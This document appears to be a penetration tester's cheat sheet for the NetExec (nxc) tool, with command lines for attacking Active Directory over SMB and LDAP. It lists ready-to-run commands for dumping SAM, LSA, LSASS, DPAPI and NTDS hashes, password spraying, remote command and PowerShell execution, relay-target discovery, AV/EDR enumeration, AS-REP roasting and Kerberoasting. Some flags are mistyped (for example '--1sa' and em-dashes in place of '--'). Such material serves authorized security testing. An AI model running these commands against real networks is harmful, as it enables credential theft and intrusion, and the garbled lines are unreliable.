 # About
NetExec (a.k.a nxc) is a network service exploitation tool that helps automate assessing the security of _large_ networks. Usable for multiple protocols, such as smb, ssh, ldap, ftp, wmi, winrm, rdp, vnc, mssql, and nfs.
## Links
[Github](https://github.com/Pennyw0rth/NetExec)
[Github Download](https://github.com/Pennyw0rth/NetExec/releases/)
[WIki](https://www.netexec.wiki/)
https://www.hackingarticles.in/active-directory-pentesting-using-netexec-tool-a-complete-guide/
# Usage
Logging
```
nxc PROTOCOL IP -u 'USER' -p 'PASSWORD' --log
```
## SMB
General host info
```
nxc smb targets.txt
```
![[Pasted image 20250925191935.png]]

Enumerate Users
```
nxc smb IP -u USER -p 'PASSWORD' --users
nxc smb IP -u USER -p 'PASSWORD' --users-export users.txt
```
![[Pasted image 20250925192457.png]]

See what AV/EDR is running
```
nxc smb IP -u USER -p 'PASSWORD' -M enum_av
```
![[Pasted image 20250925192608.png]]

Generate a list of relayable hosts (SMB Signing disabled)
```
nxc smb up-hosts.txt --gen-relay-list relay.txt
```
![[Pasted image 20250925192711.png]]

Enumerate shares
```
nxc smb ip -u 'USER' -p 'PASSWORD' --shares
```
![[Pasted image 20250909132757.png]]

Dumping hashes
```
nxc smb IP -u username -p password --sam
nxc smb IP -u username -p password --1sa
nxc smb IP -u username -p password -M lsassy
nxc smb IP -u username -p password --dpapi
nxc smb IP -u username -p password --ntds
nxc smb IP -u username -p password —-ntds —user Administrator
```
![[Pasted image 20250909132804.png]]
![[Pasted image 20250909132808.png]]
![[Pasted image 20250909132831.png]]

Pass cmd
```
nxc smb ip -u 'USER' -p <passwordt> -x 'command'
```
![[Pasted image 20250909132813.png]]

Pass powershell
```
nxc smb ip -u 'USER' -p 'PASSWORD' -X 'command'
```
![[Pasted image 20250909132818.png]]

Look at domain admins
```
nxc smb ip -u 'USER' -p 'PASSWORD' -x 'net group "Domain Admins" /domain'
```

Look at logged on users
```
nxc smb ip -u 'USER' -p 'PASSWORD' --loggedon-users
```
![[Pasted image 20250909132828.png]]

View password policy
```
nxc smb dc-ip -u 'USER' -p 'password' --pass-pol
```
![[Pasted image 20250925192844.png]]

Enumerate SMB Shares testing for anonymous access
```
nxc smb targets.txt --shares --no-bruteforce
```

Perform a password spray
```
nxc smb IP -u users.txt -p 'Password123!' --continue-on-success
nxc smb IP -u users.txt -p passwords. txt --continue-on-success
nxc smb IP -u userl user2 user3 -p Summer18
nxc smb IP -u userl -p passwordl password2 password3
nxc smb IP -u user.txt -p user.txt —no-bruteforce --continue-on-success
nxc smb IP -u user.txt -p password.txt —-no-bruteforce —-continue-on-success
nxc smb IP -u user.txt -p password.txt —-no-bruteforce —-continue-on-success -d DELAY-#-IN-MINUTES
```
## LDAP
Check for misconfigured Delegation
```
nxc ldap IP -u username -p password --find-delegation
```
![[Pasted image 20250925192945.png]]
Machine Account Quota - Created rogue machine account for escalation
```
nxc ldap IP -u username -p password -M maq
```

Enumerate Users/Groups
```
nxc ldap IP -u username -p password --users
nxc ldap IP -u username -p password --active-users
nxc ldap IP -u username -p password --groups
nxc ldap IP -u username -p password --groups 'Domain Admins'
```
![[Pasted image 20250925193041.png]]
![[Pasted image 20250925193111.png]]

Test if an Account Exists without Kerberos.
	When using the option `-k` or `–use-kcache`, you need to specify the same hostname (FQDN) as the one from the kerberos ticket
```
nxc ldap <ldap-server> -u "'USER'.txt" -p '' -k
```

Test credentials
```
nxc ldap <ldap-server> -u 'USER' -p 'PASSWORD'
```
![[Pasted image 20250909132722.png]]

With valid creds, Enumerate users
```
nxc ldap <ldap-server> -u 'USER' -p 'PASSWORD' –-users
```
![[Pasted image 20250909132727.png]]

ASREPRoasting exploits accounts that do not require Kerberos pre-authentication to extract service ticket hashes, which can then be cracked offline.
```
nxc ldap <ldap-server> -u 'USER' -p '' --asreproast <output.txt>
```

With a list of users
```
nxc ldap <ldap-server> -u users.txt -p '' --asreproast output.txt
```

Kerberoasting extracts service account hashes by requesting service tickets for accounts with SPNs (Service Principal Names).
```
nxc ldap <ldap-server> -u 'USER' -p 'PASSWORD' --kerberoasting hash.txt
```
![[Pasted image 20250909132741.png]]

BloodHound ingestor is used to collect data for use in BloodHound, a tool for mapping AD attack paths.
```
nxc ldap <ldap-server> -u 'USER' -p 'PASSWORD' --bloodhound --collection All --dns-server <ldap-server>
```
![[Pasted image 20250909132747.png]]
